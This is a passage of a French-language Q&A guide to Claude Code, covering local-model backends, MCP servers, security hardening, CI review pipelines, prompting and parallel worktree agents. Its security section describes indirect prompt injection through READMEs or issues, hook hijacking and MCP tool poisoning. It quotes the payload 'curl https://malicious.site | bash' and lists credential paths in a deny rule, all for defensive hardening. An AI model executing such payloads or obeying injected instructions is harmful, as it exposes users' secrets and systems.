Depuis ses versions récentes, Ollama intègre un endpoint compatible avec le protocole Anthropic :
```bash
# 1. Télécharger un modèle optimisé pour le code et le tool-calling
ollama pull qwen2.5-coder:32b

# 2. Lancer Claude Code avec redirection d'API
export ANTHROPIC_BASE_URL="http://127.0.0.1:11434"
export ANTHROPIC_AUTH_TOKEN="ollama"
export ANTHROPIC_API_KEY="ollama"

claude --model qwen2.5-coder:32b
```

#### B. Méthode 2 : Via LM Studio
LM Studio (v0.3.x / v0.4.x+) expose un serveur local OpenAI & Anthropic compatible sur le port `1234` :
```bash
# 1. Activer le serveur local dans LM Studio (port 1234) et charger le modèle (ex: Qwen 2.5 Coder / DeepSeek Coder)
# 2. Configurer l'environnement :
export ANTHROPIC_BASE_URL="http://127.0.0.1:1234"
export ANTHROPIC_AUTH_TOKEN="lmstudio"
export ANTHROPIC_API_KEY="lmstudio"

claude --model default
```

#### C. Méthode 3 : Via LiteLLM Proxy (Recommandé pour la robustesse)
Pour corriger les désalignements de schéma JSON du *Tool Calling* entre Anthropic et les serveurs d'inférence locaux :
```yaml
# config.yaml
model_list:
  - model_name: claude-3-5-sonnet-20241022  # Alias capté par Claude Code
    litellm_params:
      model: ollama/qwen2.5-coder:32b
      api_base: http://127.0.0.1:11434
```
```bash
# Lancement du proxy
litellm --config config.yaml --port 4000

# Lancement de Claude Code pointé sur LiteLLM
export ANTHROPIC_BASE_URL="http://127.0.0.1:4000"
export ANTHROPIC_AUTH_TOKEN="sk-litellm-local"
claude
```

---

### 2. Utilisation en complément (Architecture Hybride / Tiering)

Plutôt que de remplacer Claude 3.5/3.7 Sonnet pour l'agentique global, l'approche la plus efficiente consiste à utiliser les modèles locaux **en complément de Claude Code** :

1. **Serveur MCP local (Model Context Protocol) :**
   - Configurer un serveur MCP dans Claude Code (`claude mcp add ...`) qui appelle LM Studio ou Ollama pour déléguer les micro-tâches répétitives (génération de docstrings, analyse statique, pré-filtrage de logs, conversion de schémas).
2. **Sous-agents & Workers spécialisés :**
   - Laisser Claude Code orchestrer le projet (lecture de l'arborescence, planning, exécution d'outils système).
   - Déléguer à vos scripts locaux/CLI locaux (ex: `lm-ask.sh`) les résumés et tâches d'extraction sans coût de tokens cloud.

---

### 3. Les limites réelles de l'approche locale

Brancher un modèle local sur Claude Code expose immédiatement plusieurs verrous techniques :

| Domaine | Limite constatée | Impact réel dans Claude Code |
|---|---|---|
| **Tool Calling (Function Calling)** | Formatage JSON strict (`tool_use`, `tool_result`). | Les modèles open-weights < 70B échouent régulièrement à générer des blocs d'outils valides dès que plusieurs outils sont enchaînés, bloquant la boucle agentique. |
| **Éditions différentielles (Diffs)** | Claude Code s'appuie sur des remplacements de chaînes exacts (*search/replace blocks*). | Les modèles locaux hallucinent souvent l'indentation, omettent des lignes de contexte ou tronquent le code, causant des **boucles de retry infinies**. |
| **Dilution de contexte (*Context Rot*)** | Claude Code consomme 20k à 80k+ tokens rapidement (arbre de projet + historique d'exécution). | Au-delà de 15-20 étapes, les LLM locaux subissent une dilution d'attention majeure et oublient les règles initiales ou les outils disponibles. |
| **Absence de Prompt Caching matériel** | Anthropic exploite le KV-caching serveur côté cloud. | En local, chaque tour ré-évalue tout le préfixe de contexte si le serveur d'inférence n'est pas optimisé (vLLM avec *chunked prefill*), générant une latence très élevée (plusieurs dizaines de secondes par tour). |
| **Exigences VRAM** | Nécessité d'une fenêtre de contexte d'au minimum 32k-64k tokens. | Un modèle 32B quantifié (Q4/Q8) avec 64k tokens de contexte requiert au moins 24 à 32 Go de VRAM dédiée. |

---

### 4. Modèles open-weights recommandés

Si vous déployez cette approche, privilégiez exclusivement les modèles ayant un support natif du *function calling* et un fort benchmark agentique :
- **Qwen 2.5 Coder 32B Instruct** (le meilleur ratio performance/stabilité en local)
- **GLM-4-9B-Chat / GLM-4-Flash** (bon respect des schémas d'outils)
- **DeepSeek-R1-Distill-Qwen-32B** (fort en raisonnement complexe, mais parfois plus instable sur le formatage JSON brut sans parseur dédié)

---

### Sources & Références

- **Anthropic Claude Code CLI Documentation & API Reference** : Spécification des variables `ANTHROPIC_BASE_URL`, `ANTHROPIC_AUTH_TOKEN` et du protocole Messages API.
- **Ollama Engine Documentation (Release notes v0.14+)** : Support de l'endpoint compatible Anthropic `/v1/messages` et proxying `ollama launch claude`.
- **LiteLLM Proxy Documentation & GitHub (v1.80+)** : Traduction de schéma Anthropic Tool-Use vers vLLM/Ollama et résolutions des bugs de déduplication `tool_result`.
- **LM Studio Local Server Documentation** : Endpoints REST et compatibilité `/v1/chat/completions` & `/v1/messages`.
- **HuggingFace & OpenCodeInterpreter Research (2025/2026)** : Analyses sur les taux d'échecs de diff-editing et la dégradation de l'attention des modèles open-weights dans les boucles multi-outils.

---
## Q9 — Quels serveurs MCP apportent le plus de valeur à un développeur solo en 2026, et comment éviter la surcharge d'outils MCP qui dégrade les performances ?

Pour un développeur solo en 2026, l'écosystème **Model Context Protocol (MCP)** est passé d'un catalogue expérimental à un levier d'automatisation majeur. Cependant, brancher trop de serveurs déclenche la **« taxe MCP »** (surcharge de contexte, latence et dégradation du raisonnement).

Voici les serveurs les plus rentables et les méthodes concrètes pour préserver les performances.

---

### 1. Le « Power Pack » MCP du développeur solo (2026)

L'objectif d'un solo dev n'est pas d'avoir 50 connecteurs, mais 5 à 6 serveurs à fort effet de levier couvrant l'ensemble du cycle de vie logiciel :

| Catégorie | Serveur MCP | Valeur ajoutée concrète |
| :--- | :--- | :--- |
| **Gestion de code & CI/CD** | **GitHub MCP (Officiel)** | Gestion autonome des PRs, issues, revues de diff, navigation de branches et recherche de code sans quitter l'IDE/terminal. |
| **Documentation & Anti-hallucination** | **Context7** *(ou Dash/DevDocs MCP)* | Injecte la documentation officielle et à jour des frameworks/librairies dans le contexte, éliminant les hallucinations d'APIs dépréciées. |
| **Test & Validation UI** | **Playwright MCP** | « Yeux et mains » de l'agent : exécution de tests E2E, captures d'écran de bugs visuels et scraping dynamique de pages web. |
| **Recherche & Ingestion RAG** | **Firecrawl MCP** | Extraction de documentation web, blogs techniques ou specs au format Markdown propre, optimisé pour les LLM. |
| **Observabilité & Debug** | **Sentry MCP** | Tri direct des erreurs de production, corrélation entre les stack traces réelles et les fichiers sources locaux. |
| **Données & Infra locale** | **SQLite / Postgres MCP** *(Read-Only)* & **Docker MCP** | Inspection des schémas SQL, requêtage rapide et gestion des conteneurs sans rupture de contexte. |

---

### 2. Comment éviter la surcharge d'outils (*MCP Tool Overload*)

L'accumulation de schémas JSON dans le prompt système dégrade directement la précision de sélection (*tool misrouting*), explose les coûts et dilue l'attention du modèle.

#### A. Adopter le *Lazy Loading* et la Découverte Progressive (*Tool Search*)
* **Ne pas charger tous les schémas au démarrage** : Utiliser un client MCP supportant le *deferred loading*. Le client n'injecte au départ qu'une liste minimale (nom + description en 1 ligne).
* **Pattern `ToolSearchTool`** : Le LLM interroge sémantiquement un registre d'outils uniquement quand il détecte un besoin. Le schéma complet JSON n'est injecté qu'à ce moment-là. *(Gain mesuré : 85 % à 95 % de réduction de tokens de contexte liés aux outils)*.

#### B. Modulariser par Sous-Agents spécialisés (Sub-Agents / Gateway)
* **Éviter l'agent monolithique « omniscient »** : Ne donnez pas accès à tous les MCP en même temps au prompt principal.
* **Ségrégation par rôle** :
  * Un sous-agent **Test/QA** dispose uniquement de *Playwright* et *Filesystem*.
  * Un sous-agent **Doc/Recherche** dispose de *Firecrawl* et *Context7*.
  * Un sous-agent **Ops/Debug** dispose de *Sentry* et *Docker*.
* **MCP Gateway / Meta-Tool** : Utiliser une couche intermédiaire qui classe l'intention et ne filtre que les 3 à 5 outils pertinents pour le tour de parole actif.

#### C. Concevoir des outils « orientés workflow » plutôt qu'une API 1:1
* Si vous écrivez vos propres serveurs MCP, **évitez d'exposer 30 endpoints REST atomiques** (ex: `get_user`, `update_user_field`, `auth_check`).
* Fusionnez-les en un outil macro métier (ex: `sync_user_profile`), réduisant la surface de décision du modèle.

#### D. Fixer un plafond strict (*Tool Loadout Budget*)
* Maintenir un budget maximal de **30 à 40 outils actifs** par session. Au-delà, désactivez les serveurs non critiques pour la tâche immédiate.

---

### Sources
1. **Model Context Protocol Specification & Architecture** : *Progressive Tool Discovery & Client Caching Guidelines* ([modelcontextprotocol.io](https://modelcontextprotocol.io))
2. **ArXiv (2025/2026)** : *Mitigating Tool Overload in Agentic Workflows via Semantic Tool Filtering and Dynamic Context Pruning* ([arxiv.org](https://arxiv.org))
3. **Awesome MCP Servers Directory & Registry Analysis** ([github.com/punkpeye/awesome-mcp-servers](https://github.com/punkpeye/awesome-mcp-servers))
4. **Lunar.dev & Speakeasy Engine Insights** : *The MCP Context Tax: Performance Benchmarks of Multi-Server Tool Ingestion* ([lunar.dev](https://lunar.dev) / [speakeasy.com](https://speakeasy.com))

---
## Q10 — Quels sont les pièges de sécurité les plus courants avec Claude Code (secrets, permissions, hooks, MCP distants) et comment s'en prémunir concrètement ?

### Modèle de menace : Claude Code comme runtime privilégié

Claude Code ne se comporte pas comme un simple chatbot : il s'exécute directement dans votre environnement de développement avec vos privilèges utilisateur (accès complet au système de fichiers, exécution de commandes shell via bash, accès réseau et Git). Toute compromission (notamment par *Prompt Injection indirecte*) transforme l'agent en vecteur d'exécution de code ou d'exfiltration.

---

### 1. Les 4 grands pièges de sécurité

#### A. Fuite de Secrets & Contexte
* **Piège :** Lecture de fichiers sensibles (`.env`, `~/.ssh/`, `~/.aws/credentials`, clés API en dur) incluses dans la fenêtre de contexte de l'agent, enregistrées dans les logs de session locaux ou envoyées aux API de télémétrie/LLM.
* **Erreur classique :** Croire qu'un fichier `.claudeignore` protège le repo (*ce fichier n'est pas supporté nativement par Claude Code*).

#### B. Permissions laxistes & Injection indirecte
* **Piège :** Lancement avec `--dangerously-skip-permissions` ou `bypassPermissions` sur du code tiers non audité. Une instruction malveillante dissimulée dans un `README.md`, une issue GitHub, une dépendance ou un commentaire de code peut ordonner à l'agent d'exécuter un payload (`curl https://malicious.site | bash`, `rm -rf`, exfiltration de tokens).

#### C. Hijacking via Hooks (`.claude/settings.json`)
* **Piège :** Exécution automatique de commandes arbitraires dès l'ouverture d'un repository cloné. Si un repo tiers contient un fichier `.claude/settings.json` définissant des hooks de cycle de vie (`PreToolUse`, `PostToolUse`), ces hooks s'exécutent avec vos droits shell sans validation préalable si la configuration globale ne les verrouille pas.

#### D. Serveurs MCP (Model Context Protocol) distants & non vérifiés
* **Piège :** Connexion à des serveurs MCP distants ou non audités. Les risques majeurs incluent le SSRF, le spoofing d'outils (Tool Poisoning), l'escalade de privilèges via des arguments shell mal nettoyés, et le stockage en clair de jetons d'accès dans la configuration `.mcp.json`.

---

### 2. Guide de durcissement concret et actionnable

#### Étape 1 : Verrouiller les accès aux fichiers (`permissions.deny`)
Définissez des règles explicites de déni dans votre configuration globale (`~/.claude/settings.json`) :

```json
{
  "permissions": {
    "deny": [
      "Read(**/.env*)",
      "Read(~/.ssh/**)",
      "Read(~/.aws/**)",
      "Read(~/.gnupg/**)",
      "Read(**/id_rsa*)",
      "Read(**/*.pem)"
    ]
  }
}
```

#### Étape 2 : Sécuriser les Hooks et configurations de dépôts tiers
Pour neutraliser l'exécution de code arbitraire par des dépôts clonés :
* **Politique globale d'entreprise / utilisateur :** Désactivez l'exécution aveugle des hooks de projet avec `"disableAllHooks": true` dans votre `~/.claude/settings.json` ou forcez une validation manuelle.
* **Audit préalable :** Vérifiez toujours le contenu du dossier `.claude/` d'un nouveau projet avant d'y démarrer Claude Code.
* **Hooks défensifs locaux :** Implémentez un hook `PreToolUse` utilisateur pour interdire les patterns dangereux (`rm -rf /`, piping direct vers bash, modifications de fichiers de prod).

#### Étape 3 : Gestion stricte des secrets pour MCP
* **Pas de secrets en dur :** Ne stockez jamais d'API keys en clair dans `.mcp.json`. Injectez-les via des variables d'environnement chargées au runtime ou via des wrappers (`pass`, `aws-vault`, `1Password CLI`).
* **Pinning et isolation MCP :** Épinglez les versions exactes des serveurs MCP (`npx @modelcontextprotocol/server-xxx@1.2.3` au lieu de `@latest`).
* **Least Privilege :** N'activez que les serveurs MCP strictement requis pour la tâche courante.

#### Étape 4 : Conteneurisation et Sandbox
* **Ne jamais exécuter Claude Code avec permissions complètes sur la machine hôte.**
* Pour tout audit de code non fiable ou exécution autonome en boucle ouverte :
  * Utilisez un conteneur **Docker non-root** jetable ou une VM isolée.
  * Montez uniquement le répertoire de travail ciblé en lecture/écriture (`-v $(pwd):/workspace:rw`), sans monter le socket Docker de l'hôte (`/var/run/docker.sock`).
* Privilégiez le mode `--permission-mode plan` ou `default` lors de l'analyse exploratoire de code externe.

---

### Sources de référence
* *Anthropic Claude Code Official Documentation & Architecture Specs (Permissions, Hooks & Settings Scopes)* — [docs.anthropic.com](https://docs.anthropic.com) / [claude.com](https://claude.com)
* *Model Context Protocol (MCP) Security Specification & Threat Model* — [modelcontextprotocol.io](https://modelcontextprotocol.io)
* *Hardening Developer Agents: Prompt Injection & Tool Guardrails* — [Backslash Security / General Analysis (2025-2026)](https://backslash.security)
* *Claude Code Permissions and Hooks Best Practices* — [Sfeir / Phosai Labs Research](https://phosailabs.com)

---
## Q11 — Comment mettre en place un workflow de code review et de tests automatisés efficace avec Claude Code sur un projet réel ?

Mettre en place un workflow de **Code Review** et de **Tests Automatisés** avec **Claude Code** sur un projet réel repose sur une synergie entre son mode headless (`claude -p`), le pilotage contextuel via `CLAUDE.md`, et son intégration dans vos pipelines CI/CD (GitHub Actions / GitLab CI) ou hooks Git locaux.

---

### 1. Fondations : Le fichier de gouvernance (`CLAUDE.md`)

Claude Code charge automatiquement le fichier `CLAUDE.md` situé à la racine du dépôt. Il sert de contrat de règles pour standardiser les revues et l'exécution des tests.

```markdown
# CLAUDE.md - Directives de Review & Test

## Commandes de Test & Build
- Tests unitaires : `pytest --maxfail=1 -v` ou `npm run test`
- Linter / Typecheck : `ruff check .` / `tsc --noEmit`
- Tests E2E : `npx playwright test`

## Critères de Code Review
- **Sécurité** : Détecter injections SQL/Command, fuites de secrets, validation des inputs.
- **Performance** : Détecter requêtes N+1, boucles asynchrones bloquantes, leaks mémoire.
- **Maintenabilité** : Typage strict obligatoire, tests associés à toute nouvelle feature/bugfix.
- **Format de sortie requis** : Format JSON strict avec sévérité (`CRITICAL`, `WARNING`, `NIT`) et lignes ciblées.
```

---

### 2. Workflow CI/CD : Revue de Code Automatisée (PR Reviewer)

Deux approches s'offrent à vous : l'Action GitHub officielle (`anthropics/claude-code-action`) ou un job headless personnalisé avec `claude -p`.

#### Exemple : GitHub Action personnalisée en mode Headless

```yaml
# .github/workflows/claude-review.yml
name: Claude Code Review
on:
  pull_request:
    types: [opened, synchronize]

jobs:
  review:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      pull-requests: write
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0

      - name: Setup Node.js & Claude Code
        uses: actions/setup-node@v4
        with:
          node-version: 20
      - run: npm install -g @anthropic-ai/claude-code

      - name: Run Headless Review
        env:
          ANTHROPIC_API_KEY: ${{ secrets.ANTHROPIC_API_KEY }}
        run: |
          git diff origin/${{ github.base_ref }}...HEAD > pr_diff.patch
          claude -p "Analyse le diff dans pr_diff.patch selon les règles de CLAUDE.md.
          Fournis une revue structurée : 
          1. Résumé des changements
          2. Failles potentielles ou régressions
          3. Suggestions d'amélioration de code.
          Si tout est conforme, indique 'LGTM'." \
          --output-format json \
          --allowedTools "Read,Grep" \
          --bare \
          --max-turns 3 > review_output.json

      - name: Post Review to PR
        uses: actions/github-script@v7
        with:
          script: |
            const fs = require('fs');
            const data = JSON.parse(fs.readFileSync('review_output.json', 'utf8'));
            const comment = `### 🤖 Claude Code Review\n\n${data.result || data}`;
            github.rest.issues.createComment({
              issue_number: context.issue.number,
              owner: context.repo.owner,
              repo: context.repo.repo,
              body: comment
            });
```

---

### 3. Workflow de Tests Automatisés & Boucle d'Auto-Correction (TDD / Auto-Fix)

Claude Code excelle dans la boucle **Red-Green-Refactor** : exécuter la suite de tests, inspecter le traceback, modifier le code et valider jusqu'à succès.

#### En local (Workflow développeur)
Exécutez Claude Code avec la consigne de tester et réparer en autonomie :
```bash
claude -p "Exécute les tests unitaires via 'pytest'. Si un test échoue, analyse le traceback, modifie le code source correspondant pour corriger l'erreur, et relance les tests jusqu'à ce que toute la suite passe à 100%."
```

#### En CI/CD (Workflow "Issue to PR" / Auto-Fix sur échec de build)
Lorsqu'un test unitaire ou E2E (via Playwright / Cypress / Vitest) échoue dans votre pipeline :
1. Capturez la sortie d'erreur (`test_failure.log`).
2. Déclenchez Claude Code avec permission d'écriture pour proposer un patch ou ouvrir une PR de correction automatique :
```bash
claude -p "Les tests ont échoué avec le log suivant : $(cat test_failure.log). Répare le code source sans altérer l'intention du test, valide que 'npm test' réussit, et prépare un commit avec un message explicite." \
  --output-format json \
  --max-turns 6
```

---

### 4. Workflow Local : Hook Pre-push / Pre-commit

Pour éviter de pousser du code non vérifié :

```bash
#!/bin/bash
# .git/hooks/pre-push

echo "🔍 Exécution de l'audit rapide Claude Code..."
DIFF=$(git diff origin/main...HEAD)

if [ -z "$DIFF" ]; then
  exit 0
fi

OUTPUT=$(claude -p "Vérifie ce git diff pour détecter d'éventuels oublis de debug (console.log, pdb), failles de sécurité évidentes ou syntaxe invalide : $DIFF. Réponds uniquement 'OK' ou liste les blocages critiques." --bare --max-turns 1)

if [[ "$OUTPUT" != *"OK"* ]]; then
  echo "❌ Blocage détecté par Claude Code :"
  echo "$OUTPUT"
  exit 1
fi

echo "✅ Audit Claude Code validé."
```

---

### 5. Bonnes Pratiques de Production (Gouvernance & Sécurité)

1. **Restreindre les outils (`--allowedTools`)** :
   - En phase de review pure : restreindre à `--allowedTools "Read,Grep"` pour interdire toute modification de fichier ou exécution de script non contrôlée.
   - En phase de test/fix : autoriser `Edit,Read,Grep,Bash` avec des commandes encadrées.
2. **Limiter les itérations (`--max-turns`)** : Toujours fixer une limite (ex. `3` pour une review, `6` à `10` pour un auto-fix) afin d'éviter les boucles infinies et maîtriser la consommation de tokens.
3. **Mode léger (`--bare`)** : Désactive le chargement des hooks/plugins locaux non nécessaires pour accélérer le cold-start sur les runners CI éphémères.
4. **Gestion des secrets et infrastructure** : Ne jamais injecter de tokens en dur ; passer par GitHub Secrets / Vault d'entreprise et privilégier des passerelles managées (Anthropic API, AWS Bedrock, Google Cloud Vertex AI).

---

### Sources
- *Claude Code Documentation & Best Practices (Anthropic, 2025/2026)* — [claude.ai/code](https://claude.ai/code)
- *Anthropic Claude Code Action (`anthropics/claude-code-action`)* — Documentation officielle GitHub Actions
- *Headless CLI Integration & Automation Patterns with Claude Code (`claude -p` / `--output-format json`)* (2025–2026)

---
## Q12 — Quelles techniques de prompting sont spécifiquement efficaces avec Claude Code par rapport à un chat classique, notamment pour le debugging ?

Dans un chat classique (claude.ai, ChatGPT), le modèle est **passif** : il spécule à partir d'extraits de code et de stack traces copiés-collés. Avec **Claude Code**, le modèle est un **agent autonome doté d'outils** (accès au système de fichiers, exécution shell, git, MCP). 

Le prompting ne consiste plus à décrire une solution, mais à **piloter une démarche d'investigation et de validation en boucle fermée**.

---

### 1. Les techniques clés spécifiques à Claude Code

#### A. Le *Verification-Driven Prompting* (Boucle de rétroaction fermée)
* **Principe** : Ne jamais demander à Claude de « deviner » la correction. Lui imposer d'écrire ou d'exécuter un test automatisé pour prouver l'échec, puis la réussite.
* **Format actionnable** :
  > *« Reproduis le bug [description], écris un test unitaire minimal qui échoue pour ce cas, applique le correctif chirurgical dans [fichier], et valide en exécutant la commande `npm test -- [nom]`. Ne t'arrête que lorsque le test passe sans régression. »*

#### B. Le prompting d'instrumentation active (*Evidence-First Debugging*)
* **Principe** : Plutôt que de laisser l'agent faire des suppositions sur l'état des variables, lui ordonner d'injecter des logs temporaires, d'exécuter le script, d'analyser la sortie réelle, puis de nettoyer les logs.
* **Format actionnable** :
  > *« Ne modifie pas encore la logique métier. Ajoute des logs temporaires détaillés autour de [fonction] pour tracer [variables], exécute `python main.py --debug`, analyse la trace d'exécution pour isoler la cause racine, puis nettoie tes logs et applique le fix. »*

#### C. L'automatisation de l'investigation historique (*Git Bisect Prompting*)
* **Principe** : Tirer parti de l'accès au shell pour déléguer la recherche de régressions dans l'historique git.
* **Format actionnable** :
  > *« Ce comportement fonctionnait sur le commit `v1.4.0` mais échoue sur `HEAD`. Utilise `git bisect` avec le script de test `./scripts/test_feature.sh` pour localiser le commit exact responsable de la régression et résume le diff. »*

#### D. Structuration en « Four-Block Pattern »
Pour les tâches complexes, structurer le prompt pour contraindre l'espace de décision :
```markdown
## CONTEXTE : [Fichiers concernés, environnement]
## TÂCHE : [Comportement attendu vs comportement observé]
## CONTRAINTES : [Ne pas modifier l'API publique, préserver la rétrocompatibilité]
## VÉRIFICATION : [Commande exacte à exécuter pour valider la résolution]
```

#### E. Délégation aux sous-agents & Mode Plan
* **Plan avant action** : Activer le *plan mode* ou exiger une phase de diagnostic avant toute écriture : *« Analyse les dépendances de `auth_service.py` et liste les 3 causes possibles avant de toucher aux fichiers. »*
* **Sous-agents spécialisés** : Déléguer via des sous-agents (`debugger`, `test-runner`) pour isoler l'analyse lourde et préserver la mémoire principale.

#### F. Context Engineering via `CLAUDE.md` et hygiène de session
* **Centralisation dans `CLAUDE.md`** : Déclarer les commandes de test, de lint, d'architecture et les règles de code à la racine du projet. Vos prompts deviennent ultra-courts car l'agent charge automatiquement ce contrat initial.
* **Gestion du "Context Rot"** : Utiliser régulièrement `/compact` ou relancer une session propre dès que le contexte dépasse 70-80%, car la précision du diagnostic décroît avec l'encombrement de la fenêtre de tokens.

---

### 2. Comparatif : Prompt Chat classique vs Claude Code

| Objectif | Chat Web Classique | Claude Code (Agentique) |
| :--- | :--- | :--- |
| **Bug de parsing** | *« Voici mon code et mon erreur JSON, peux-tu corriger le code ? »* | *« Exécute `pytest tests/test_parser.py`, analyse la failure, patche `parser.py` et réexécute la commande jusqu'au vert complet. »* |
| **Régression inconnue** | *« Pourquoi ma fonction ne renvoie plus les bonnes données depuis la mise à jour ? »* | *« Lance un `git bisect run pytest tests/test_api.py`, identifie le commit fautif et propose un correctif. »* |
| **Comportement imprévu** | *« Explique-moi pourquoi cette condition pourrait être fausse. »* | *« Instrumente `service.go` avec des traces, lance `./run.sh`, inspecte le retour dans les logs et déduis la cause racine. »* |

---

### Sources
1. **Anthropic Documentation & Best Practices (2025/2026)** : *Effective Agentic Workflows with Claude Code & Subagent architecture* ([claude.com](https://docs.anthropic.com/))
2. **Context Engineering for CLI Agents (2026)** : *The 4-Block Pattern, CLAUDE.md System Prompt Contracts & Context Hygiene* ([promptbuilder.cc](https://promptbuilder.cc), [sfeir.com](https://www.sfeir.dev))
3. **Evidence-Based Debugging Patterns for Autonomous Coding Assistants (2026)** : *Systematic Root-Cause Analysis via Git Bisect, Active Instrumentation, and Test-Driven Feedback Loops* ([claudedirectory.org](https://claudedirectory.org), [nathanonn.com](https://nathanonn.com))

---
## Q13 — Comment orchestrer plusieurs agents Claude Code en parallèle (worktrees git, tâches de fond) sans conflits ni gaspillage ?

Pour orchestrer plusieurs agents **Claude Code** en parallèle de manière robuste, sans collision de fichiers et sans explosion de tokens, l'architecture repose sur 5 piliers actionnables :

---

### 1. Isolation stricte via Git Worktrees
Faire tourner plusieurs sessions Claude Code dans le même répertoire corrompt l'état de l'arbre Git et détruit le contexte des agents. Les worktrees permettent à chaque agent de travailler sur sa propre branche et son propre dossier, tout en partageant la base `.git`.

* **Mode natif Claude Code :**
  ```bash
  claude --worktree feature-auth
  # Crée automatiquement une branche et un répertoire isolé sous .claude/worktrees/feature-auth
  ```
* **Gestion programmatique / shell :**
  ```bash
  # Création d'un worktree dédié
  git worktree add .worktrees/agent-worker-1 -b feat/agent-worker-1
  
  # Nettoyage automatique après merge
  git worktree remove --force .worktrees/agent-worker-1
  git branch -d feat/agent-worker-1
  ```

---

### 2. Pattern Orchestrateur - Workers & Découpage Disjoint
Pour éviter les conflits de merge et le gaspillage de calcul :
* **Règle d'or (*File Ownership Boundaries*) :** Chaque agent doit avoir un contrat d'interface clair (specs d'entrée/sortie) et un périmètre de fichiers **mutuellement exclusif** (ex. Agent A = `src/api/auth.py`, Agent B = `src/models/user.py`, Agent C = `tests/`).
* **Skill `/batch` & Subagents :** Claude Code intègre le partitionnement de tâches en sous-agents éphémères (5 à 30 workers parallèles) qui exécutent chacun leur sous-tâche dans un contexte LLM isolé, préservant la mémoire principale.

---

### 3. Exécution asynchrone & Mode Headless (Tâches de fond)
Pour faire tourner des agents en arrière-plan sans bloquer le terminal interactif :
* **Exécution headless non-interactive :**
  ```bash
  # Lancement en arrière-plan d'une tâche atomique dans son worktree
  (cd .worktrees/agent-worker-1 && claude -p "Implémente le endpoint POST /users selon openapi.json. Exécute pytest et corrige les erreurs jusqu'à 100% de succès." --dangerously-skip-permissions) &
  ```
* **Supervision par fichiers de log / statuts :** Faire écrire à chaque agent un fichier `.status.json` ou un résumé markdown en fin de tâche (`output.md`) pour que l'orchestrateur central agrège les résultats sans réinjecter l'historique complet des tokens.

---

### 4. Isolation des dépendances et de l'environnement d'exécution
L'isolation des fichiers Git ne suffit pas si les agents partagent des ressources système :
* **Ports réseau dynamiques :** Injecter des variables d'environnement distinctes pour les serveurs de dev (ex. `PORT=4001`, `PORT=4002`).
* **Bases de données & Caches :** Utiliser des schémas PostgreSQL distincts (`search_path=worker_1`) ou des bases SQLite dédiées par worktree (`test_worker_1.db`).
* **Verrous de paquet (`lockfiles`) :** Chaque worktree installe ses dépendances localement (`.venv` ou `node_modules` distincts via symlink ou cache global `pnpm`/`uv`) pour éviter les conflits d'écriture sur les package managers.

---

### 5. Protocole de Merge et d'Intégration Continue
1. **Auto-validation locale :** Le worker doit exécuter ses tests unitaires et son linter dans son worktree avant de marquer sa tâche comme terminée.
2. **Intégration séquentielle (Orchestrateur) :**
   ```bash
   git checkout main
   git merge --no-ff feat/agent-worker-1 -m "feat: merge worker 1 output"
   # Si conflit mineur, déclencher un subagent de résolution sur le diff
   ```
3. **Nettoyage automatique :** Suppression systématique du worktree et de la branche pour libérer le disque et les descripteurs.

---

### Sources
1. [Claude Code Official Documentation & Worktrees Guide](https://claude.com)
2. [Anthropic - Multi-Agent Architecture & Orchestrator Pattern](https://anthropic.com)
3. [MindStudio - Headless Mode and Agent Execution in CI/CD](https://mindstudio.ai)
4. [Aakash Gupta / Multi-Agent Development Workflows with Git Worktrees](https://aakashx.com)
5. [Fast Claude Batching & Multi-Session Orchestration Patterns](https://claudefa.st)

---
## Q14 — Quelles sont les nouveautés et fonctionnalités récentes de Claude Code souvent ignorées par les utilisateurs expérimentés ?

Voici une synthèse dense et actionnable des fonctionnalités récentes et souvent sous-exploitées de **Claude Code** (l'agent CLI d'Anthropic) :

---

### 1. Contrôle déterministe via les Hooks (`.claude/hooks/`)
* **Le concept :** Contrairement au prompt système (qui repose sur l'obéissance probabiliste du LLM), les hooks sont des déclencheurs stricts (scripts shell, endpoints HTTP ou outils MCP).
* **Cas d'usage :**
  * `pre-tool` / `post-edit` : Exécuter un linter/formatter automatique (ex. `eslint --fix`, `ruff`) après chaque modification de fichier.
  * `guardrails` : Interdire de manière déterministe l'édition de certains fichiers critiques (`.env`, migrations de production) ou bloquer des commandes shell dangereuses.

---

### 2. Isolation par Subagents & Spécialisation des permissions
* **Le concept :** Les utilisateurs expérimentés gèrent souvent une session unique qui sature la fenêtre de contexte. Claude Code permet désormais d'invoquer des **subagents éphémères**.
* **Action :**
  * Chaque subagent dispose de son propre prompt système, de sa fenêtre de contexte isolée et d'un set d'outils restreint (ex. un agent d'audit en *read-only* strict).
  * Le subagent termine sa tâche et ne renvoie qu'un résumé synthétique à la session principale, évitant le *context bloat*.

---

### 3. Architecture "Skills" à la demande (`.claude/skills/`)
* **Le concept :** Surcharger le fichier racine `CLAUDE.md` dégrade la précision du modèle et consomme des tokens en continu.
* **Action :**
  * Définir des procédures modulaires dans `.claude/skills/<nom>/SKILL.md`.
  * Ces briques de logique procédurale (création d'un endpoint type, audit de sécurité, recette de test) ne sont chargées en contexte que lorsque la compétence est explicitement requise.

---

### 4. Raccourcis et contrôles de session avancés
* **`Shift + Tab` (Plan Mode) :** Force l'agent à élaborer une stratégie et une décomposition avant toute écriture de code, éliminant les hallucinations sur les refactorings complexes.
* **Double `Esc` ou `/rewind` :** Permet de rembobiner l'état du projet (code, conversation ou les deux) pour sortir instantanément d'une boucle d'erreur ou d'une mauvaise direction.
* **`Ctrl + S` & `Ctrl + R` :** *Stash* d'un prompt pour plus tard et recherche incrémentale dans l'historique des prompts CLI.
* **`/compact` & `/export` :** Condensation chirurgicale des tokens d'une longue session ou export complet au format Markdown pour audit/documentation.

---

### 5. Intégration CI/CD et isolation système
* **Mode Headless (`-p`) :** Exécution non-interactive (`claude -p "instruction"`) pour injecter Claude Code directement dans des scripts d'automatisation, des pipelines CI/CD ou des cron jobs.
* **Workflows avec `git worktree` :** Recommandé pour lancer des agents autonomes en parallèle sur des branches isolées sans bloquer le répertoire de travail principal.
* **Gouvernance granulaire (`.claude/settings.json`) :** Définition stricte des listes blanches/noires de commandes (`allowedTools` / `deniedTools`) pour déléguer des tâches autonomes en toute sécurité.

---

### Sources
* **Anthropic Documentation :** *Claude Code Overview & Extensibility Architecture* ([code.claude.com/docs](https://code.claude.com/docs))
* **Developers Digest :** *Claude Code: Hooks, Subagents and Orchestration Patterns (2025–2026)*
* **Model Context Protocol (MCP) Working Group :** *Integrating Agentic CLI Workflows with MCP*

---
## Q15 — Comment mesurer et améliorer objectivement la qualité du travail produit par Claude Code sur la durée : métriques, garde-fous, boucles de feedback ?

